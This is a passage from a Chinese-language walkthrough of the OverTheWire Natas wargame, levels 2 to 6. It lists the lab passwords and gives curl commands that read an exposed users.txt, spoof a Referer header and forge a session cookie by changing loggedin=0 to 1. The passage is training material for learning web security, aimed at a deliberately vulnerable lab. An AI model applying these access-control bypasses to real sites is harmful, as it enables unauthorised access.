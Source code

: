 查看files目录：

`curl -u natas2:h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 http://natas2.natas.labs.overthewire.org/files/ | htmlq -t`

密码就在users.txt里.

## level 3 to 4

natas4: tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

提示**No more information leaks!**,碰巧不久前看过[robots.txt](https://zh.wikipedia.org/zh-cn/Robots.txt), 一试又是users.txt文件。

## level 4 to 5

natas5: Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

关键词是**visiting from**

一番搜索发现是HTTP里的[Referer](https://en.wikipedia.org/wiki/HTTP_referer)这一头字段([list of HTTP header fields](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields))

查看curl的manual，构造含有符合要求的Referer字段的GET请求：

`curl --get --header 'Referer: http://natas5.natas.labs.overthewire.org/' -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm http://natas4.natas.labs.overthewire.org/index.php | htmlq 'body' | bat -l html`

## level 5 to 6

natas6: fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

上一个Access disallowed说得很清楚，从`""`访问不让看，得从他指定的路径去访问。

这一个说**You are not logged in**，不让看。但是明明输入了用户名和密码。

[这篇文章](https://hackmethod.com/overthewire-natas-5/?v=7516fd43adaa)里讲了，现在网站的[session management](https://en.wikipedia.org/wiki/HTTP_cookie#Session_management)就用一个uniq session identifier，用户登录后服务器给你发一个又臭又长的字符串，后台数据库里也存一个，今后访问的时候浏览器把这字符串发送到服务器对对看就知道这个用户登没登录过。

查看curl的manual找找cookie字样，下面的命令在访问页面同时把接收到的cookie输出到stdout：

`curl --cookie-jar - -u natas5:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD http://natas5.natas.labs.overthewire.org/index.php | htmlq 'body' | bat -l html`

一看，输了用户名跟密码但是服务器给的cookied里loggedin为0，所以先把接收的cookied保存下来：

`curl --cookie-jar natas5-cookie -u natas5:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD http://natas5.natas.labs.overthewire.org | htmlq 'body' | bat -l html`

然后把0改成1，下次访问该页面是点名道姓用这个经过修改的cookie作为所谓的uniq session identifier

`curl --cookie natas5-cookie -u natas5:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD http://natas5.natas.labs.overthewire.org/index.php | htmlq 'body' | bat -l html`

## level 6 to 7
